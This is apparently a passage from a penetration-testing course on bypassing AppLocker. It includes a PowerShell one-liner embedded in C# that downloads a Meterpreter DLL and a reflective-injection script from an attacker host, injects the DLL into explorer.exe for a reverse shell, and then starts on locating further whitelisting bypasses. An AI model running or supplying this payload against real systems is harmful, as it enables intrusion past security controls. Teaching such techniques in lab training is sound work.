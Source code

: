 First, we'll generate a 64-bit Meterpreter DLL and host it on the Apache server on our Kali machine. We'll also upload the Invoke-ReflectivePEInjection.ps1 script from C:\Tools to the Apache server to simulate the full attack scenario.

Next, we'll modify the _cmd_ variable inside the constrained language mode bypass (the C# application developed in the previous sections). Our goal is to download the Meterpreter DLL into a byte array, determine the process ID of explorer.exe for the DLL injection and download and execute the _Invoke-ReflectivePEInjection_ script. The updated _cmd_ variable is shown in Listing 27.

```
String cmd = "$bytes = (New-Object System.Net.WebClient).DownloadData('http://192.168.119.120/met.dll');(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/Invoke-ReflectivePEInjection.ps1') | IEX; $procid = (Get-Process -Name explorer).Id; Invoke-ReflectivePEInjection -PEBytes $bytes -ProcId $procid";
```

> Listing 27 - Reflectively loading Meterpreter DLL into explorer.exe

Since we pass the script on a single line, we used the ; command terminator to supply multiple commands at once.

When we compile and execute the C# application through InstallUtil, it generates a reverse shell, proving that the unmanaged DLL successfully loaded, bypassing AppLocker's DLL rules.

**Exercise**

1. Repeat the actions in this section to obtain a reverse shell by reflectively loading the Meterpreter DLL.

### 11.4. Bypassing AppLocker with C\#

We have successfully bypassed AppLocker's PowerShell restrictions and have executed arbitrary managed C# and PowerShell code through InstallUtil. However, this relies on the existence of a single binary. If InstallUtil was blocked by a deny rule, this technique would fail. Let's improve our tradecraft by building another AppLocker bypass in C#.[1](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fn-local_id_361-1)

In addition to providing an alternative bypass method for C# code execution, this process demonstrates basic techniques which could aid future research. Discovering a bypass is not completely trivial, so we'll divide this process into a number of steps.

1

(Matt Graeber, 2018), [https://posts.specterops.io/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb](https://posts.specterops.io/arbitrary-unsigned-code-execution-vector-in-microsoft-workflow-compiler-exe-3d9294bc5efb) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fnref-local_id_361-1)

#### 11.4.1. Locating a Target

To begin, let's discuss the components of an AppLocker bypass. Our ultimate goal is to execute arbitrary C# code via a whitelisted application, which means our target application must either accept a pre-compiled executable as an argument and load it into memory or compile it itself. In addition, the target application must obviously execute our code.

Either way, the whitelisted application must load unsigned managed code into memory. This is typically done through APIs like _Load_,[1](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fn-local_id_362-1) _LoadFile_[2](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fn-local_id_362-2) or _LoadFrom_.[3](https://portal.offsec.com/courses/pen-300-9502/learning/application-whitelisting-14700/application-whitelisting-15088#fn-local_id_362-3)
